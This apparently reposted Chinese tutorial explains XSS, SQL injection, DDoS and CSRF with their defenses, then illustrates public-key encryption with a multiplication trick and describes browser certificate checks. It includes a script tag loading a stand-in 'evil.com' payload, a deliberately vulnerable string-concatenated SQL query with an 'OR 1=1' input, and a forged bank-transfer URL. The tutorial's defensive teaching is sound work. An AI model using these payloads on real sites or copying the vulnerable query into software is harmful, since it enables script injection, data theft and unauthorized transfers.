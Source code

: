 > 作者：编译青春
> 
> https://zhuanlan.zhihu.com/p/23309154



## 1\. Cross Site Script（XSS， 跨站脚本攻击)

首先插播一句，为毛叫 XSS，缩写明显是 CSS 啊？没错，为了防止与我们熟悉的 CSS（Cascading Style Sheets）混淆，所以干脆更名为 XSS。

那 XSS 是什么呢？一言蔽之，XSS 就是攻击者在 Web 页面中插入恶意脚本，当用户浏览页面时，促使脚本执行，从而达到攻击目的。XSS 的特点就是想尽一切办法在目标网站上执行第三方脚本。
![image](http://upload-images.jianshu.io/upload_images/13148580-27ae9964fb2a1a99.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

举个例子。原有的网站有个将数据库中的数据显示到页面的上功能，document.write("data from server")。但如果服务器没有验证数据类型，直接接受任何数据时，攻击者可以会将 <script src='http:bad-script.js'></scirpt> 当做一个数据写入数据库。当其他用户请求这个数据时，网站原有的脚本就会执行 document.write("<script src='[http://www.evil.com/bad-script.js](https://link.zhihu.com/?target=http%3A//www.evil.com/bad-script.js)'></scirpt>")，这样，便会执行 bad-script.js。如果攻击者在这段第三方的脚本中写入恶意脚本，那么普通用户便会受到攻击。

XSS 主要有三种类型：

*   存储型 XSS： 注入的脚本永久的存在于目标服务器上，每当受害者向服务器请求此数据时就会重新唤醒攻击脚本；
*   反射型 XSS： 当用受害者被引诱点击一个恶意链接，提交一个伪造的表单，恶意代码便会和正常返回数据一起作为响应发送到受害者的浏览器，从而骗过了浏览器，使之误以为恶意脚本来自于可信的服务器，以至于让恶意脚本得以执行。
*   DOM 型 XSS： 有点类似于存储型 XSS，但存储型 XSS 是将恶意脚本作为数据存储在服务器中，每个调用数据的用户都会受到攻击。但 DOM 型 XSS 则是一个本地的行为，更多是本地更新 DOM 时导致了恶意脚本执行。

那么如何防御 XSS 攻击呢？
*   从客户端和服务器端双重验证所有的输入数据，这一般能阻挡大部分注入的脚本
*   对所有的数据进行适当的编码
*   设置 HTTP Header： "X-XSS-Protection: 1"

## 2\. SQL Injection （SQL 注入）
所谓 SQL 注入，就是通过客户端的输入把 SQL 命令注入到一个应用的数据库中，从而得以执行恶意 SQL 语句。

先看个例子。
``` 
uname = request.POST['username']
password = request.POST['password']

sql = "SELECT all FROM users WHERE username='" + uname + "' AND password='" + password + "'"

database.execute(sql)
```
上面这段程序直接将客户端传过来的数据写入到数据库。试想一下，如果用户传入的 password 值是： "password’ OR 1=1"，那么 sql 语句便会变成：

```
sql = "SELECT all FROM users WHERE username='username' AND password='password' OR 1=1"
```

那么，这句 sql 无论 username 和 password 是什么都会执行，从而将所有用户的信息取出来。

那么怎么预防 sql 的问题呢？

想要提出解决方案，先看看 sql 注入得以施行的因素：
*   网页应用使用 SQL 来控制数据库
*   用户传入的数据直接被写入数据库

根据 [OWASP](https://link.zhihu.com/?target=https%3A//en.wikipedia.org/wiki/OWASP)，下面看看具体的预防措施。

*   Prepared Statements (with Parameterized Queries)： 参数化的查询语句可以强制应用开发者首先定义所有的 sql 代码，之后再将每个参数传递给查询语句
*   Stored Procedures： 使用语言自带的存储程序，而不是自己直接操纵数据库
*   White List Input Validation： 验证用户的输入
*   Escaping All User Supplied Input： 对用户提供的所有的输入都进行编码

## 3\. Distributed Denial of Service （DDoS， 分布式拒绝服务）

DoS 攻击就是通过大量恶意流量占用带宽和计算资源以达到瘫痪对方网络的目的。

举个简单的例子，老郑家面馆生意红火，突然有一天一群小混混进了点，霸占了座位，只闲聊不点菜，结果坐在店里的人不吃面，想吃面的人进不来，导致老郑无法向正常客户服务。

而 DDoS 攻击就是将多个计算机联合起来一同向目标发起攻击，从而成倍地提高拒绝服务攻击的威力。

![image](http://upload-images.jianshu.io/upload_images/13148580-30413cb6a6044f4f.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

一般 DDoS 攻击有两个目的：
*   敲诈勒索，逼你花钱买平安
*   打击竞争对手

在技术角度上，DDoS攻击可以针对网络通讯协议的各层，手段大致有：TCP类的SYN Flood、ACK Flood，UDP类的Fraggle、Trinoo，DNS Query Flood，ICMP Flood，Slowloris类、各种社工方式等等，这些技术这里不做详细解释。但是一般会根据攻击目标的情况，针对性的把技术手法混合，以达到最低的成本最难防御的目的，并且可以进行合理的节奏控制，以及隐藏保护攻击资源。

阿里巴巴的安全团队在实战中发现，DDoS 防御产品的核心是检测技术和清洗技术。检测技术就是检测网站是否正在遭受 DDoS 攻击，而清洗技术就是清洗掉异常流量。而检测技术的核心在于对业务深刻的理解，才能快速精确判断出是否真的发生了 DDoS 攻击。清洗技术对检测来讲，不同的业务场景下要求的粒度不一样。

## 4\. Cross Site Request Forgery (CSRF， 跨站请求伪造)

简单来说，CSRF 就是网站 A 对用户建立信任关系后，在网站 B 上利用这种信任关系，跨站点向网站 A 发起一些伪造的用户操作请求，以达到攻击的目的。

举个例子。网站 A 是一家银行的网站，一个转账接口是 "[http://www.bankA.com/transfer?toID=12345678&cash=1000](https://link.zhihu.com/?target=http%3A//www.bankA.com/transfer%3FtoID%3D12345678%26cash%3D1000)"。toID 表示转账的目标账户，cash 表示转账数目。当然这个接口没法随便调用，只有在已经验证的情况下才能够被调用。

此时，攻击者建立了一个 B 网站，里面放了一段隐藏的代码，用来调用转账的接口。当受害者先成功登录了 A 网站，短时间内不需要再次验证，这个时候又访问了网站 B，B 里面隐藏的恶意代码就能够成功执行。

那怎么预防 CSRF 攻击呢？[OWASP](https://link.zhihu.com/?target=https%3A//en.wikipedia.org/wiki/OWASP) 推荐了两种检查方式来作为防御手段。

*   检查标准头部，确认请求是否同源： 检查 source origin 和 target origin，然后比较两个值是否匹配
*   检查 CSRF Token： 主要有四种推荐的方式
    *   Synchronizer Tokens： 在表单里隐藏一个随机变化的 token，每当用户提交表单时，将这个 token 提交到后台进行验证，如果验证通过则可以继续执行操作。这种情况有效的主要原因是网站 B 拿不到网站 A 表单里的 token;
    *   Double Cookie Defense： 当向服务器发出请求时，生成一个随机值，将这个随机值既放在 cookie 中，也放在请求的参数中，服务器同时验证这两个值是否匹配；
    *   Encrypted Token Pattern： 对 token 进行加密
    *   Custom Header： 使用自定义请求头部，这个方式依赖于同源策略。其中最适合的自定义头部便是： "X-Requested-With: XMLHttpRequest"

## 非对称加密 私钥和公钥
> 作者: ThreatHunter
>
> https://www.zhihu.com/question/33645891/answer/192604856

举一个小学生都能懂的例子吧：-----------------------------
看一个小时候经常在《趣味数学》这类书里的一个数学小魔术：让对方任意想一个3位数，并把这个数和91相乘，然后告诉我积的最后三位数，我就可以猜出对方想的是什么数字啦！

比如对方想的是123，那么对方就计算出123 * 91等于11193，并把结果的末三位193告诉我。看起来，这么做似乎损失了不少信息，让我没法反推出原来的数。不过，我仍然有办法：只需要把对方告诉我的结果再乘以11，乘积的末三位就是对方刚开始想的数了。可以验证一下，193 * 11 = 2123，末三位正是对方所想的秘密数字！

其实道理很简单，91乘以11等于1001，而任何一个三位数乘以1001后，末三位显然都不变（例如123乘以1001就等于123123）。知道原理后，我们可以构造一个定义域和值域更大的加密解密系统。比方说，任意一个数乘以400000001后，末8位都不变，而400000001 = 19801 * 20201，于是你来乘以19801，我来乘以20201，又一个加密解密不对称的系统就构造好了。

甚至可以构造得更大一些：4000000000000000000000000000001 = 1199481995446957 * 3334772856269093，这样我们就成功构造了一个30位的加密系统。这是一件非常coooooooool的事情，任何人都可以按照我公布的方法加密一个数，但是只有我才知道怎么把所得的密文变回去。其安全性就建立在算乘积非常容易，但是要把4000000000000000000000000000001分解成后面两个数相乘，在没有计算机的时代几乎不可能成功！但如果仅仅按照上面的思路，如果对方知道原理，知道我要构造出带很多0的数，根据19801和8位算法这2个条件非常容易穷举出400000001这个目标值。

要解决这个问题，真实世界就不是使用乘法了，比如RSA算法使用的是指数和取模运算，但本质上就是上面这套思想。

但是公钥有可能伪造, 这时候就需要证书. 客户端在接受到服务端发来的SSL证书时，会对证书的真伪进行校验，以浏览器为例说明如下：![[图片上传中...(image-441a4a-1534673207924)]
](http://upload-images.jianshu.io/upload_images/13148580-f89d0080cc76dbe6.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

（1）首先浏览器读取证书中的证书所有者、有效期等信息进行一一校验
（2）浏览器开始查找操作系统中已内置的受信任的证书发布机构CA，与服务器发来的证书中的颁发者CA比对，用于校验证书是否为合法机构颁发
（3）如果找不到，浏览器就会报错，说明服务器发来的证书是不可信任的。
（4）如果找到，那么浏览器就会从操作系统中取出 颁发者CA 的公钥，然后对服务器发来的证书里面的签名进行解密
（5）浏览器使用相同的hash算法计算出服务器发来的证书的hash值，将这个计算的hash值与证书中签名做对比
（6）对比结果一致，则证明服务器发来的证书合法，没有被冒充
（7）此时浏览器就可以读取证书中的公钥，用于后续加密了

![image](http://upload-images.jianshu.io/upload_images/13148580-83396b634089d76f.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
